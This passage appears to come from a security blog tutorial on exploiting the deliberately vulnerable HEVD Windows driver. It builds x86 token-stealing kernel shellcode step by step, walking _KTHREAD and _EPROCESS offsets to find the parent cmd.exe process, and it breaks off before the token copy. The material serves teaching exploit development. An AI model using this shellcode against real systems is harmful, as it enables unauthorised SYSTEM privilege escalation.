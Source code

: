 ``` x86asm
pushad                                  ; Save current registers
mov eax, dword fs:[0x124]               ; EAX now points to _KTHREAD
```

In the `_KTHREAD` structure we can find an offset to the `_KPROCESS`.

<div class="imgblock">

![KTHREAD KPROCESS](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330910/blog/hevd-privilege-escalation/kthread1_ghbqtt.webp)

</div>

It turns out that `_KPROCESS` is the first field of `_EPROCESS`, which
means that we can access the `_EPROCESS` structure at `_KTHREAD+0x150`:

``` x86asm
pushad                                  ; Save current registers
mov eax, dword fs:[0x124]               ; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]              ; EAX now points to _EPROCESS
```

The `_EPROCESS` structure holds the required offsets to the other needed
information:

- `_EPROCESS+0x0b8` points to `ActiveProcessLinks` which is a linked
  list holding the current running processes, and `_EPROCESS+0x0b4`
  points to the current process `PID`:

<div class="imgblock">

![Active Process Links](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330910/blog/hevd-privilege-escalation/activeprocess1_krqcw8.webp)

</div>

- `_EPROCESS+0x140` points to `InheritedFromUniqueProcessId` which
  will contain the `PID` of the parent process, in our case the `PID`
  of `cmd.exe`:

<div class="imgblock">

![Parent Pid](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330909/blog/hevd-privilege-escalation/parentpid1_msemxx.webp)

</div>

With that, we need to save the `PID` of `cmd.exe`:

``` x86asm
pushad                                  ; Save current registers
mov eax, dword fs:[0x124]               ; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]              ; EAX now points to _EPROCESS
mov edx, dword [eax+0x140]              ; EDX now points to cmd.exe PID
```

Now we need to traverse the `ActiveProcessLinks` list to find the
`_EPROCESS` structure for the `cmd.exe` process:

<cta-banner
  buttontxt="Read more"
  link="/solutions/ethical-hacking/"
  title="Get started with Fluid Attacks' Ethical Hacking solution right now"
/>
